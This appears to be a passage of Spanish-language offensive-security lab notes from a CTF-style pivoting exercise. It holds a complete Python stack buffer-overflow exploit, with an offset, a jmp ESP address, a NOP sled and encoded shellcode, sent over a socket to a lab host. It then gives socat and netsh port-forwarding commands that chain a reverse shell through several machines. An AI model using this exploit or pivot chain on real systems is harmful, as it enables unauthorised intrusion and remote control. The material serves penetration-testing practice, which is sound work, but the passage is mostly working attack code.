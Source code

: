 ```python
#!/usr/bin/python3

import socket
from struct import pack

offset = 524
before_eip = b"A" * offset
eip = pack("<I", 0x311712f3) # jmp ESP

shellcode =  (b"\xdb\xc0\xbb\xc7\xd3\x83\x15\xd9\x74\x24\xf4\x5a"
b"\x31\xc9\xb1\x12\x31\x5a\x17\x03\x5a\x17\x83\x05"
b"\xd7\x61\xe0\xb8\x03\x92\xe8\xe9\xf0\x0e\x85\x0f"
b"\x7e\x51\xe9\x69\x4d\x12\x99\x2c\xfd\x2c\x53\x4e"
b"\xb4\x2b\x92\x26\x87\x64\x56\x6b\x6f\x77\x97\x96"
b"\x32\xfe\x76\x28\xd4\x50\x28\x1b\xaa\x52\x43\x7a"
b"\x01\xd4\x01\x14\xf4\xfa\xd6\x8c\x60\x2a\x36\x2e"
b"\x18\xbd\xab\xfc\x89\x34\xca\xb0\x25\x8a\x8d")

payload = before_eip + eip + b"\x90"*16 + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.50.73", 9999))
s.send(payload)
s.close()
```
#### <font color="#fac08f"><u>Pivoting</u>Brainpan</font> 
Socat para la Reverse Shell.
```python 
$> ./socat TCP-LISTEN:4004,fork TCP:172.18.0.135:4003 # MATRIX
$> netsh interface portproxy add v4tov4 listenport=4003 listenaddress=0.0.0.0 connectport=4002 connectaddress=192.168.100.131 # Dumbledore 
$> ./socat TCP-LISTEN:4002,fork TCP:10.10.0.129:4001 # NAGINI
$> ./socat TCP-LISTEN:4001,fork TCP:192.168.50.221:4000 # ARAGOG
```
